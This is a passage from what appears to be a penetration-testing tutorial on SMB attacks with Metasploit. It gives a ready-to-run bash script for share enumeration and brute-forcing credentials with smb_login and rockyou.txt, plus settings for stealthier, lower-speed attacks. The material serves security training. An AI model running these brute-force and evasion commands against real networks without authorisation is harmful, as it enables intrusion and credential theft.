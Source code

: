 ## Real-World Attack Scenario

### Corporate Network SMB Assessment

```bash
#!/bin/bash

NETWORK=$1

echo "[*] Starting corporate SMB assessment"
echo "[*] Network: $NETWORK"

# Phase 1: Discovery
./smb_setup.sh $NETWORK

# Phase 2: Version and share enumeration
msfconsole -q -x "
workspace corp_smb_assessment;
setg RHOSTS $NETWORK;
use auxiliary/scanner/smb/smb_version;
run;
use auxiliary/scanner/smb/smb_enumshares;
run;" > discovery_results.txt

# Phase 3: Credential attack on discovered shares
msfconsole -q -x "
workspace corp_smb_assessment;
use auxiliary/scanner/smb/smb_login;
set USER_FILE custom_corp_users.txt;
set PASS_FILE rockyou.txt;
set THREADS 15;
run;" > credential_results.txt

echo "[+] Assessment complete. Check discovery_results.txt and credential_results.txt"
```

## Best Practices and Security Considerations

### Optimization Tips

```bash
# For stealth operations
msf6 auxiliary(scanner/smb/smb_login) > set BRUTEFORCE_SPEED 3
msf6 auxiliary(scanner/smb/smb_login) > set THREADS 2

# For comprehensive testing
msf6 auxiliary(scanner/smb/smb_login) > set BLANK_PASSWORDS true
msf6 auxiliary(scanner/smb/smb_login) > set USER_AS_PASS true
```

### Common SMB Security Issues
